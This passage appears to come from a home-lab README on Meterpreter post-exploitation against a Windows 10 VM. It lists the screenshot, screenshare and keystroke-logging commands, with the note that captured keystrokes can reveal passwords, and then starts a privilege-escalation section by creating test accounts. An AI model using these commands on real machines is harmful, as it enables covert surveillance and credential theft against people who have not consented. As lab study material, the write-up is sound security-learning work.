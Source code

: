 <p align="left">
Upload Commands in Meterpreter <br/>
<img src="https://i.imgur.com/Rz4oDTm.png" height="35%" width="35%" alt=""/>
<br />

<h2></h2>

<h2>Stealing Screenshot and Keystrokes</h2>

<p align="left">
User interface Commands <br/>
<img src="https://i.imgur.com/Dg0Jd9b.png" height="35%" width="35%" alt=""/>
<br />

- We can grab a screenshot of the infected machine by using the screenshot command
  - > screenshot -v true
    - -v true = view the screenshot as it takes the screenshot
 
<p align="left">
Screenshot Command in Meterpreter <br/>
<img src="https://i.imgur.com/tlMwzuV.png" height="35%" width="35%" alt=""/>
<br />

- We can even view the infected machine by using the screenshare command
  - > screenshare
  - Everything the infected machine can see, the hacking device machine cand see as well


- We can capture the keystroke of the infected machine by using the keyscan_start, keyscan_dump, keyscan_stop
  - > keyscan_start
    - This will start sniffing the keystrokes on the infected machine
  - > keyscan_dump
    - This will record everything up until the command but keep sniffing the keystrokes
  - > keyscan_stop
    - This will stop sniffing the keystrokes on the infected machine
  - Can capture any keystrokes even usernames and passwords
 
<p align="left">
Keyscan Commands in Meterpreter <br/>
<img src="https://i.imgur.com/8WH7lgo.png" height="35%" width="35%" alt=""/>
<br /> 
On the infected machine, I typed: iphone 15 case then iphone 13

<h2></h2>

<h2>Gaining Admin Level Privileges on Infected Windows 10 VM</h2>

Prepping a few user accounts on the infected machine to simulate a real Device with user accounts

1. Open up cmd as administrator on Windows VM

2. Type in cmd: net user [username] [password of this user] /add
    - > net user ana Password1 /add
      > net user ben PassW0rd! /add
      > net user carol Captain12cvq /add
      > net user clark johncena35s /add
      > net user kara Aquaman123 /add
      > net user peter supeRmaN542 /add
